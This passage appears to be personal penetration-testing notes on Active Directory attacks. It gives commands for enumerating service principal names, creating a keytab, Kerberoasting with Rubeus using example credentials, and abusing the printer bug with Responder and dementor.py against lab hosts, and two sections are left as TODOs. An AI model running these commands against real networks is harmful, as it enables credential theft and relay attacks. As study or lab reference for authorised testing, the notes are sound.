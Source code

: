 #### With `DirectorySearcher`

{% code overflow="wrap" %}
```powershell
$s = New-Object DirectoryServices.DirectorySearcher([ADSI]"");
$s.PageSize = 2000; 
$s.Filter = "(servicePrincipalName=*)" 
$s.FindAll()
```
{% endcode %}

#### Using `ldapsearch`

<mark style="background-color:red;">\[TODO]</mark>

### Creating a Keytab

{% code overflow="wrap" %}
```powershell
ktpass /princ wsman/svc-mssql@burmat.local /mapuser svc-mssql@burmat.local /pass "S3cur3PW123" /out svc-mssql.keytab /crypto all /ptype KRB5_NT_PRINCIPAL /mapop set
```
{% endcode %}

### Kerberoasting:

#### Rubeus

{% code overflow="wrap" %}
```powershell
rubeus.exe kerberoast /creduser:burmat.local\xsvc /credpassword:S3cur3PW123 /outfile:user.hash
```
{% endcode %}

#### PowerView.ps1

```sh
[TODO]
```

### Attacking spoolss  ("The Printer Bug")

From a host with unconstrained delegation, "[the printer bug](https://www.slideshare.net/harmj0y/the-unintended-risks-of-trusting-active-directory)" and [dementor.py](https://gist.github.com/3xocyte/cfaf8a34f76569a8251bde65fe69dccc) can be used to cause a TGT relay from the target host to us running responder, so we can generate a TGS for any user on that target host:

{% code overflow="wrap" %}
```sh
## set up a relay with responder:
responder -I tun0 --lm # tun0 = 10.10.15.123

## execute exploit through:
proxychains python dementor.py -u xsvc -p 'S3cur3PW123' -d 'burmat.local' 10.10.15.123 10.10.10.123
```
{% endcode %}
